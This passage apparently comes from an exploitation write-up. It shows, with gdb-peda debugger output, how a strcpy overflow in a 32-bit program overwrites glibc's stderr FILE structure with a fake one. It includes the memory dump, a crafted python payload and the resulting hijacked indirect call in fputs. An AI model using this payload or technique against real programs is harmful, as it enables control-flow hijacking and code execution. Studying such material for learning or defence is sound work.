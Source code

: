```shell
gdb-peda$ p sizeof(FILE)
$1 = 0x94
gdb-peda$ x/148bx stderr
0xb7fc0960 <_IO_2_1_stderr_>:   0x86    0x20    0xad    0xfb    0x00    0x00    0x00    0x00
0xb7fc0968 <_IO_2_1_stderr_+8>: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xb7fc0970 <_IO_2_1_stderr_+16>:    0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xb7fc0978 <_IO_2_1_stderr_+24>:    0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xb7fc0980 <_IO_2_1_stderr_+32>:    0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xb7fc0988 <_IO_2_1_stderr_+40>:    0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xb7fc0990 <_IO_2_1_stderr_+48>:    0x00    0x00    0x00    0x00    0xc0    0x0a    0xfc    0xb7
0xb7fc0998 <_IO_2_1_stderr_+56>:    0x02    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xb7fc09a0 <_IO_2_1_stderr_+64>:    0xff    0xff    0xff    0xff    0x00    0x00    0x00    0x00
0xb7fc09a8 <_IO_2_1_stderr_+72>:    0x8c    0x18    0xfc    0xb7    0xff    0xff    0xff    0xff
0xb7fc09b0 <_IO_2_1_stderr_+80>:    0xff    0xff    0xff    0xff    0x00    0x00    0x00    0x00
0xb7fc09b8 <_IO_2_1_stderr_+88>:    0x00    0x0a    0xfc    0xb7    0x00    0x00    0x00    0x00
0xb7fc09c0 <_IO_2_1_stderr_+96>:    0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xb7fc09c8 <_IO_2_1_stderr_+104>:   0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xb7fc09d0 <_IO_2_1_stderr_+112>:   0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xb7fc09d8 <_IO_2_1_stderr_+120>:   0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xb7fc09e0 <_IO_2_1_stderr_+128>:   0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xb7fc09e8 <_IO_2_1_stderr_+136>:   0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xb7fc09f0 <_IO_2_1_stderr_+144>:   0x00    0x00    0x00    0x00
```
Because of strcpy() will stop copy when meeting 0x00, so we must replace 0x00 with another value. From above we can know the variable test is at 0xbfffebac, so we make fake structure at 0xbfffebac - 160-->0xbfffeb0c. Let's just have a try what will happen when replacing the FILE structure:
```shell
r "`python -c 'print "a"*882+"\x86\x20\xad\xfbAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0\x1a\xfc\xb7\x02AAAAAAA\xff\xff\xff\xffAAAA\x8c\x18\xfc\xb7\xff\xff\xff\xff\xff\xff\xff\xffAAAAA\x1a\xfc\xb7AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\xfa\xfb\xb7AAAAAAAA"+"\x0c\xeb\xff\xbf"'`"

 [----------------------------------registers-----------------------------------]
EAX: 0x80482 
EBX: 0xb7fc0000 --> 0x1a9da8 
ECX: 0xbfffeb9a ("AAAAAA\240\372\373\267AAAAAAAA\f\353\377\277")
EDX: 0xb7fc188c --> 0x1 
ESI: 0xbfffeb0c --> 0xfbad2086 
EDI: 0x16 
EBP: 0xb7e15940 (0xb7e15940)
ESP: 0xbfffe750 --> 0xbfffeb0c --> 0xfbad2086 
EIP: 0xb7e7a140 (<__GI__IO_fputs+160>:  call   DWORD PTR [eax+0x1c])
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xb7e7a135 <__GI__IO_fputs+149>: mov    DWORD PTR [esp+0x8],edi
   0xb7e7a139 <__GI__IO_fputs+153>: mov    DWORD PTR [esp],esi
   0xb7e7a13c <__GI__IO_fputs+156>: mov    DWORD PTR [esp+0x4],ecx
=> 0xb7e7a140 <__GI__IO_fputs+160>: call   DWORD PTR [eax+0x1c]
   0xb7e7a143 <__GI__IO_fputs+163>: cmp    edi,eax
   0xb7e7a145 <__GI__IO_fputs+165>: jne    0xb7e7a190 <__GI__IO_fputs+240>
   0xb7e7a147 <__GI__IO_fputs+167>: mov    edx,0x1
   0xb7e7a14c <__GI__IO_fputs+172>: test   DWORD PTR [esi],0x8000
Guessed arguments:
arg[0]: 0xbfffeb0c --> 0xfbad2086 
arg[1]: 0xbfffeb9a ("AAAAAA\240\372\373\267AAAAAAAA\f\353\377\277")
arg[2]: 0x16 
[------------------------------------stack-------------------------------------]
0000| 0xbfffe750 --> 0xbfffeb0c --> 0xfbad2086 
0004| 0xbfffe754 --> 0xbfffeb9a ("AAAAAA\240\372\373\267AAAAAAAA\f\353\377\277")
0008| 0xbfffe758 --> 0x16 
0012| 0xbfffe75c --> 0x0 
0016| 0xbfffe760 --> 0xbfffebb8 --> 0x0 
0020| 0xbfffe764 --> 0xb7ff2500 (<_dl_runtime_resolve+16>:  pop    edx)
```
